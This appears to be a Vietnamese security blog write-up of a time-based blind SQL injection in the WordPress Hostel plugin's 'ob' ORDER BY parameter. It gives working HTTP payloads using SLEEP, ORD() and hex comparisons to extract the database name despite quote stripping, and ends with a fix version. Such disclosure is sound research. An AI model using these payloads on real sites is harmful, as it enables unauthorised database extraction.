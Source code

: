 ⚠️ Ở đây có điểm bất thường:
- Phần sau `ORDER BY` sử dụng `sanitize_text_field()`.
- Hàm này chỉ **loại bỏ/escape HTML**, không hề filter hoặc validate để đảm bảo an toàn trong **SQL context**.
- Tham số `ob` (do người dùng truyền vào) vì vậy có thể bị lợi dụng để **chèn trực tiếp vào câu SQL**.

**Request with BurpSuite**:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&ob=tB.status,(SELECT+SLEEP(10))&dir=ASC HTTP/1.1
```
Ta tách mệnh đề `ORDER BY` bằng `,` vì nó chấp nhập **multi column**

![time response](assets/img/posts/2025-08-25-CVE-2025-39566/time_response.png)

Kết quả: thời gian phản hồi bị delay => SQL Injection thành công.

### Dump Data from Database

**Bypass `'` using ORD()**:

Để dump dữ liệu của database ta cần thử để lấy ký tự đầu tiên của **database name**.

Do `sanitize_text_field()` loại bỏ `'`, ta không dùng được payload so sánh trực tiếp. Thay vào đó dùng `ORD()` để so sánh ký tự theo ASCII:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(ORD(SUBSTRING(DATABASE(),1,1))=119,SLEEP(5),0))&dir=ASC HTTP/1.1
```
Thành công bypass => có thể trích xuất tên database.

![ORD bypass](assets/img/posts/2025-08-25-CVE-2025-39566/ord_bypass.png)

**Bypass `'` using Hex encoding (extend)**

Ngoài `ORD()` ta có thể sử dụng **Hex encoding** để bypass

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Thành công bypass => có thể trích xuất tên database.

![Hex encoding bypass](assets/img/posts/2025-08-25-CVE-2025-39566/ord_bypass.png)

### Automated Extraction

Viết script để tự động hóa quá trình tấn công: [**Script**](https://github.com/w41bu1/w41bu1.github.io/blob/main/assets/code/posts/2025-08-25-CVE-2025-39566/script.py)

## Remediation

Cập nhật lên **Hostel Plugin v1.1.5.7** hoặc mới hơn
